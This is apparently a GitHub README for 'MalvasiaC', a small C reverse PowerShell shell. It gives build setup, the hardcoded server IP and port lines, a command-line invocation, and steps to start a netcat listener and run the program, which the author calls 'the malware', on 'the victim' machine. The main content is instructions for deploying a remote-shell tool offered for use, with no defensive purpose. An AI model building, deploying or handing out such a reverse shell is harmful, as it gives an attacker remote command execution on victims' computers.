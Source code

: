 # MalvasiaC
## C classic (minimal) reverse powershell
![Alt text](./screen.png)
This is a sample Powershell reverse shell, coded just for fun, keeping the stuff as simple as possible, considering my limited knowledge in C. Indeed the logo is much more cool than the program logic 😁

### Requirements
- This software has been coded on Windows using Visual Studio Code
- Follow the instruction [here](https://code.visualstudio.com/docs/languages/cpp) to get up & running
  - The compiling tasks require you have <b>MySys64-GCC</b> in the following location: "C:\msys64\ucrt64\bin\gcc.exe"
- Add the <b>-lws2_32</b> parameter to the compiler task [file](./.vscode/tasks.json)
- Powershell must be present on the client machine (AKA the victim)

### Configuration
You can hardcode the server IP and port around [line 20](./malvasia.c)
```c
char *CLIENT_IP = "127.0.0.1";
int CLIENT_PORT = 1234;
``` 
Eventually you can pass these values as parameters
```
.\malvasia.exe 127.0.0.1 1234
```

#### In action
![Alt text](./screen2.png)
1. Run the server (in this case using netcat)
2. Execute the client - this software (AKA the malware) - passing the server IP and port
3. Have fun running some powershell commands
